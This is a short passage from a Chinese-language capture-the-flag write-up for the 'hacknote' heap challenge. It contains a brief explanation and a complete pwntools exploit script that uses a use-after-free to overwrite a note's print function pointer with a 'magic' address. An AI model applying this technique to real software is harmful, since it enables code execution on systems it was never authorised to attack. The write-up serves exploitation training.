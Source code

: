 > 从上图中可以看到，这里写入的“magic”字符串将其他地址覆盖了，不过不要担心，在执行payload时会写入magic函数的真实地址，不会将其他地址进行覆盖。由于我们覆盖的是printf函数的地址，在打印note0的信息时，就会执行system函数。
>

## exp
```c
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

r = process('./hacknote')

def addnote(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)

def delnote(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))

def printnote(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))

#gdb.attach(r)
magic = 0x08048986
addnote(32, "aaaa") # add note 0
addnote(32, "ddaa") # add note 1
delnote(0) # delete note 0
delnote(1) # delete note 1
addnote(8, p32(magic)) # add note 2
printnote(0) # print note 0

r.interactive()
```


